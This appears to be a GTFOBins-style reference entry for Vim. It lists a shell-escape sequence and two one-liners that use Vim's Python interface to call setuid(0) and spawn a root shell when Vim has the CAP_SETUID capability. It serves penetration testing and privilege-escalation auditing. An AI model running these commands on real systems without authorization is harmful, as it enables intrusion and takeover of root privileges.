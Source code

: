 > Vim is an almost compatible version of the UNIX editor Vi. Many new features have been added: multi level undo, syntax highlighting, command line history, on-line help, filename completion, block operations, folding, Unicode support, etc.


#Shell_Access 

Getting a shell
```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#Linux_Privilege_Escalation 

Get root shell with CAP_SETUID capability
```
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
```
vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```